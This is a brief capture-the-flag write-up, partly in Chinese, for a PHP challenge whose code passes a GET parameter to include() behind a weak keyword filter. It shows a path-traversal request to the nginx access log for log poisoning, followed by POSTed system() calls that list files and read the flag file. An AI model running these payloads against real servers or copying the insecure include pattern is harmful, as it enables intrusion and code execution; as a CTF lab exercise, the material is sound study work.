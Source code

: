 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```



过滤了

php

data

:





日志注入

```
?file=../../../../../../var/log/nginx/access.log
```

![image-20250405160235598](./assets/image-20250405160235598.png)

![image-20250405160307228](./assets/image-20250405160307228.png)

![image-20250405160324163](./assets/image-20250405160324163.png)

命令执行

GET

```
?file=../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```

![image-20250405160350326](./assets/image-20250405160350326.png)

GET

```
?file=../../../../../../var/log/nginx/access.log
```

POST

```
a=system("tac fl0g.php");
```

![image-20250405160416604](./assets/image-20250405160416604.png)